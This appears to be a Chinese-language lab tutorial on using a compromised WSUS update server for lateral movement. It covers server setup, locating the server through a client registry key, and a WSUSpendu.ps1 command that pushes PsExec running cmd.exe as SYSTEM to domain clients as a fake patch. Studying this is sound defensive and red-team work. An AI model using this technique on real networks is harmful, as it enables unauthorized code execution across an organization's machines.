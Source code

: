### WSUS

#### 0x01 前置

WSUS（Windows Server Update Services），是微软公司开发的一个计算机程序，它允许管理员管理已为微软产品发布的更新和热修复补丁分发到企业环境中的计算机。管理员只需要在wsus上选择哪些补丁需要更新，就能通过**HTTP**/HTTPS协议快速地将各种补丁部署到内网中的其他服务器中去，这样即使是由于种种原因不能暴露在英特网中的内网主机也能通过WSUS及时下载安装补丁。如果已有域更新服务器的权限，可以用过下发更新来横向移动到指定目标。以下演示本地环境搭建

#### 0x02 服务端配置WSUS

安装wsus服务

![](./media/1.png)

一路默认。安装完成后需要简单配置。

配置更新语言

![](./media/2.png)

配置需要更新的产品

![](./media/3.png)

时间原因，这里我不同步微软更新服务

![](./media/4.png)

接着根据需求配置域组策略，设置域的自动更新策略

设置更新时间

![](./media/5.png)

设置更新服务器为wsus 服务端

![](./media/6.png)

为域内主机更新组策略

`Import-Module GroupPolicy -verbose`

`Invoke-GPUpdate -RandomDelayInMinutes 0 -Computer computer`

组策略更新后我们可以在目标机器注册表`HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate`上看到相应的服务器设置

![](./media/7.png)

所以，在内网中可以据此定位到更新服务器。

组策略更新后，可以在wsus上看到客户端

![](./media/8.png)

（可能需要在客户端上执行`usoclient ReportNow`向wsus报告之后才能看到，但是不影响补丁下发）

在客户端上能成功访问http://wsus:8530/ClientWebService/client.asmx，表明环境没问题。

遇到客户端错误0x8024401c，参照http://woshub.com/windows-10-wsus-error-0x8024401c/解决。

#### 0x03 下发补丁

使用[WSUSpendu.ps1](https://github.com/AlsidOfficial/WSUSpendu)可以把我们要执行的文件(需要微软签名，可配合签名伪造漏洞)通过补丁的形式下发给客户端。以psexec.exe为例，执行

```
 .\WSUSpendu.ps1 -Inject -PayloadFile .\PsExec64.exe -PayloadArgs '-accepteula -s -d cmd.exe /c "ipconfig
> C:\\users\\public\\1.txt'
```

执行成功之后，在wsus可以看到相应的补丁。如果wsus没开启自动审批，需要我们手动审批该补丁

![](./media/14.jpg)

补丁名可以自己更改

![](./media/15.png)

到了设置更新时间，客户端会自动下载更新执行。

![](./media/12.png)

![](./media/13.png)